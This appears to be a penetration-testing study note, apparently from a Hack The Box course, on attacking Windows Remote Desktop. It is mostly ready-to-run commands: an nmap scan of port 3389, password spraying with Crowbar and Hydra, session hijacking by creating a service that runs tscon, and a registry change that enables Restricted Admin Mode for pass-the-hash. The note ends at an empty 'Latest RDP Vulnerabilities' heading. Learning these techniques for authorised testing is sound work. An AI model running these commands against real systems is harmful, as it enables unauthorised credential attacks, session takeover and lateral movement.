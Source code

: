### Attacking rdp

By default, RDP uses port `TCP/3389`.

```shell
nmap -Pn -p3389 <ip>
```
#### Misconfigurations

Using the [Crowbar](https://github.com/galkan/crowbar) tool, we can perform a password spraying attack against the RDP service

```shell
crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'
```

We can also use `Hydra` to perform an RDP password spray attack.
```shell
hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp
```

Impersonating users
- need SYSTEM privs
![[Pasted image 20250207130824.png]]
```cmd
tscon #{TARGET_SESSION_ID} /dest:#{OUR_SESSION_NAME}
```

```cmd
C:\htb> query user

 USERNAME              SESSIONNAME        ID  STATE   IDLE TIME  LOGON TIME
>juurena               rdp-tcp#13          1  Active          7  8/25/2021 1:23 AM
 lewen                 rdp-tcp#14          2  Active          *  8/25/2021 1:28 AM

C:\htb> sc.exe create sessionhijack binpath= "cmd.exe /k tscon 2 /dest:rdp-tcp#13"
```
To run the command, we can start the `sessionhijack` service :
```cmd-session
 net start sessionhijack
```

>[!note]
>This method no longer works on Server 2019._

### PtH for rdp
Restricted Admin Mode
>This can be enabled by adding a new registry key `DisableRestrictedAdmin` (REG_DWORD) under `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Lsa`. It can be done using the following command:

```cmd
 reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

# Latest RDP Vulnerabilities
